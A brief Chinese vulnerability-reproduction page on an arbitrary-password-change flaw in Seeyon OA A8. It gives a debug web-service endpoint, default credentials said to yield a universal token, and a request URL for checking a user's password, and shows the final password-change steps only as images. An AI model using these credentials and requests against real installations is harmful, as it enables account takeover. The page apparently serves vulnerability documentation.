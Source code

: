 # 致远 OA A8 任意用户密码修改漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/9.html](http://book.iwonder.run/0day/致远 oa/9.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能 Token 之后可以修改任意用户密码。

![image](img/100db9cabb06fd4b5d19d36f23fa0fd9.png)

访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回 false 说明 zw 密码不正确

![image](img/944703b3a86309bc90e7119e8cd17a0d.png)

修改密码

![image](img/a13ca98140010b76bdf9b169ae9bf035.png)

![image](img/a4982e2729c91c53220d0a1ac31a0ccb.png)

